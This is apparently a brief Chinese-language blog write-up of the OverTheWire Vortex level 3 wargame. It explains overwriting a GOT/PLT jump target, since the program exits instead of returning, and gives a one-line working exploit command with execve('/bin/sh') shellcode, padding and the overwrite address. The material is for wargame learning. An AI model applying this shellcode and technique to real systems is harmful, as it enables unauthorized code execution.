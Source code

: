 ```yaml
---
title: vortex3
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

这道题用的是exit，所以不能通过修改返回地址来做了

但从提示也可以看出要修改got之类的。具体看反汇编的代码，最后exit是`call 0x8048320`，进去看，那里是`jmp *0x08049738`。我们可以修改0x08049738处的值为buf, 再将shellcode放在buffer里即可

具体地，地址0x08049738保存在0x08048322处，而buf与lpp相距132。故

<pre>$ /vortex/vortex3 `perl -e 'print "\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x107 . "\x22\x83\x04\x08"'`</pre>
